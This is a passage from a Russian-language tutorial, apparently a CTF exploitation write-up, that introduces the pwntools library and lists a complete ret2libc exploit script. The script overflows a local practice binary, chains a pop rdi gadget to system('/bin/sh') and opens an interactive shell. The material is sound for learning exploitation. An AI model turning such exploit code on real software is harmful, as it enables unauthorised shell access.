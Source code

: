 Теперь самое время познакомиться с питоновским модулем pwntools, призванным превратить разработку низкоуровневых эксплоитов в одно удовольствие.

[pwntools](https://github.com/Gallopsled/pwntools) — сторонний модуль для Python, разрабатываемый специально для применения в CTF-кампаниях для тасков категории PWN, который отнюдь не следует философии Unix — он умеет делать много, но как ни странно, умеет делать это хорошо.

Установка сводится к простой команде менеджеру пакетов. Мы будем ставить stable-версию (для Python 2), ведь не смотря на то, что разработчики уже представили бету для третьего питона, багов там все еще слишком много, чтобы нормально ей пользоваться (в основном, трудности портирования связаны с различиями в механизмах работы с кодировками).

```
$ sudo -H python2 -m pip install --upgrade pwntools
```

Имей в виду, что в довесок к самому модулю будет установлена туча сторонних зависимостей, поэтому я бы не рекомендовал делать это на основном хосте не из виртуальной среды.

Ссылка на информативную документацию (которая впрочем иногда не открывается без VPN'а): [docs.pwntools.com](http://docs.pwntools.com/en/stable/)

Работать с модулем несложно, а код получается интуитивно понятным, поэтому я прокомментирую только основные моменты.

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

# Использование: python pwn-ret2libc.py [DEBUG]

from pwn import *

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64
context.terminal  = ['tmux', 'new-window']

junk = 'A' * 120
pop_rdi_gadget = p64(0x401136)
system_addr = p64(0x7ffff7e1ffd0)
bin_sh_addr = p64(0x7ffff7f7cb84)
exit_addr = p64(0x7ffff7e143c0)

payload = junk + pop_rdi_gadget + bin_sh_addr + system_addr + exit_addr

with open('payload.bin', 'wb') as f:
	f.write(payload)

p = process('./ret2libc')

"""
gdb.attach(p, '''
init-peda
start''')

# Нужен raw_input(), когда юзаешь gdb.debug() вместо gdb.attach()
"""

p.recvuntil('Case 2: Return-to-libc')
raw_input('[?] Отправляю пейлоад?')
p.sendline(payload)

p.interactive()
```


[//]: # (2019-10-23)